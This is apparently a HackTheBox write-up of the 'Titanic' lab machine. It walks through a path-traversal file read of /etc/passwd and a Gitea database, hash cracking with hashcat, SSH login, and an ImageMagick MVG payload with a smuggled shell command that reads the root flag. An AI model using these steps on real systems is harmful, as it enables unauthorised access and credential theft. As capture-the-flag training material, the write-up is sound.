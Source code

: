 # Write-Up: Titanic Machine 🚢

![Titanic](https://img.shields.io/badge/Difficulty-Easy-green)  
![Titanic](https://img.shields.io/badge/Platform-HackTheBox-red)  
![Titanic](https://img.shields.io/badge/OS-Linux-blue)  

---

## Index 📚

1. [Introduction](#introduction-)
2. [Enumeration](#enumeration-)
3. [Exploitation](#exploitation-)
4. [Privilege Escalation](#privilege-escalation-)
5. [Conclusion](#conclusion-)

---

## Introduction 🎯

The **Titanic** machine is an **Easy**-difficulty **Linux** machine on HackTheBox. In this write-up, I will detail the exploitation process, from initial enumeration to obtaining the root flag. 🚩

---

## Enumeration 🔍

### 1. Port Scanning 🛠️

We start with a port scan using **Nmap**:

```bash
nmap -sC -sV -oN titanic.nmap 10.10.11.55
Result:

plaintext
Copy

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.x
Port 22: SSH (OpenSSH 8.9p1)

Port 80: HTTP (Apache 2.x)

2. Web Enumeration 🌐
Accessing http://titanic.htb, we find a simple website. An interesting endpoint is /book, which returns a JSON file after submitting a form. Using Burp Suite, we intercept the request and discover it redirects to /download?ticket=rand-id.json.

3. Local File Inclusion (LFI) 🕳️
We test for LFI by replacing rand-id.json with ../../../../etc/passwd:

bash
Copy
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
Result:

plaintext
Copy
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
We confirm the site is vulnerable to LFI. We also extract /etc/hosts and find a subdomain:

plaintext
Copy
127.0.0.1   dev.titanic.htb
Exploitation 💣
1. Accessing Gitea 🐙
We visit http://dev.titanic.htb and find a Gitea instance. We register a new user and explore the repositories:

docker-config: Docker configuration.

flask-app: Flask application code.

2. Extracting the Gitea Database 🗃️
Using the LFI, we extract the Gitea database:

bash
Copy
curl -s "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o gitea.db
We open the database with SQLite:

bash
Copy
sqlite3 gitea.db
sqlite> SELECT lower_name, passwd, salt FROM user;
We obtain the hash and salt for the developer user.

3. Cracking the Password 🔓
We use hashcat to crack the hash:

bash
Copy
hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt
We obtain the plaintext password. 🎉

4. SSH Access 🚪
We use the credentials to access via SSH:

bash
Copy
ssh developer@titanic.htb
We read the user flag:

bash
Copy
cat /home/developer/user.txt
Privilege Escalation ⬆️
1. Identifying Vulnerabilities 🕵️
We run sudo -l and find no direct privileges. We explore /opt and find a script called identify_images.sh that uses ImageMagick.

2. Exploiting ImageMagick 🖼️
The ImageMagick version is vulnerable to arbitrary code execution. We create a malicious .mvg file:

plaintext
Copy
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.png"|/bin/bash -c "cat /root/root.txt > /tmp/root.txt")'
pop graphic-context
We execute the script:

bash
Copy
/opt/scripts/identify_images.sh /tmp/exploit.mvg
3. Obtaining the Root Flag 🚩
We check the /tmp/root.txt file:

bash
Copy
cat /tmp/root.txt
Root flag obtained! 🎉

Conclusion 🏁
The Titanic machine demonstrates how an LFI can lead to the exposure of sensitive data (like a Gitea database) and, ultimately, privilege escalation through a vulnerability in ImageMagick.

Flags Captured 🚩

Happy Hacking! 🚀
